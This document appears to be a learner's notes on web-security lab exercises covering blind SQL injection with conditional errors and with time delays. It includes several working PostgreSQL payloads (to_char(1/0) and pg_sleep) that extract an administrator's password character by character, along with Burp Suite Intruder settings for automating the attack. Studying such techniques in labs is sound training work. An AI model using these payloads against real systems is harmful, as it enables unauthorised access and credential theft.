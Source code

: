 If we have an error the letter is the right one, otherwise with a 200 cod it is wrong.
We tested with the intruder of burpsuit and we have a "m" on the 500 code, so the first letter is a "m"
```
'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```

We can do the attack with a "CLUSTER BOMB TO". on burpsuit

We use the python script with some differences to apply on this case.

We did it, now lets go to the next theme.

# Blind SQL injection with time delays #
Sometimes we do not recive errors, from the website or response codes, nothing. Sometimes we can know things based on the response of the server.

For example on this lab we must use
pg_sleep(10)
```
' ||pg_sleep(10)-- -
```

So when we need to retrive information on a server, we can play on the same way that before.(error responses) But on this case if the query is ok it will spend 5 sec on the response, otherwise it will be 0

```
'||(select case when (1=1) then pg_sleep(5) else pg_sleep(0) end from users where username='administrator')||'
```
We need to validate the length of the password
```
'||(select case when substring(username,1,1)='a' then pg_sleep(5) else pg_sleep(0)end from users where username='administrator' and length(password)>=20)-- -
```




Now if we want to know the password
```
'||(select case when substring(password,1,1)='a' then pg_sleep(5) else pg_sleep(0)end from users where username='administrator')-- -
```

Now when we use the intruer, all the responses will be "200" so how do we know if its ok the letter or no.. we can do it manually but is a lot of work
![[Screenshot_2023-08-24_14_24_54.png]]

If we want to go to burpsuit on the resource pool we must modyfy the next items

- Custom resource (called slow in this case)
- Maximum concurrent request=1
- Delay between requests 500

![[Screenshot_2023-08-24_14_28_28.png]]
